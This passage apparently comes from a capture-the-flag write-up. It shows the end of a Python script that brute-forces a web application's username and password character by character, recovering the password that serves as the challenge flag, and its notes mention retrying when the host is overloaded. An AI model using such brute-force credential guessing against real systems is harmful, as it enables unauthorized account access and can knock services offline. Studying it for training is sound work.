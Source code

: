 ```

			else:
				#print(f"Invalid --> USERNAME : {user_name+usr_character} | PASSWORD : {passwd+pass_character}") # For testing purpose
				track+=1

		except KeyboardInterrupt:
			exit()

		except:
			
			# If the host is not available due to excessive brutefore attack
			# then it will wait some time to send another request
			wait=5
			time.sleep(wait)
			print(f"\nCouldn\'t able to reach {url}   |  Waiting for {wait} seconds\n")


print("Starting Attack\n")

#cred_finder('user_name') # Find the Username
cred_finder('passwd') # Find the Passwd


```

No `proxy` has been used in this script.
You can also run it with `proxy` if you want to.

It may be possible that the webapp will not respond, because of `bruteforce attack`, which can lead to `DDOS Attack`
then it will wait for 5 seconds before sending next request to the webapp.


This script is capable of finding `username` as well as `password`

![brute_user](Images/brute_user.png)

But in this case we have to find the `password` only to solve the challenge.
The `password` is the `flag` for this challenge
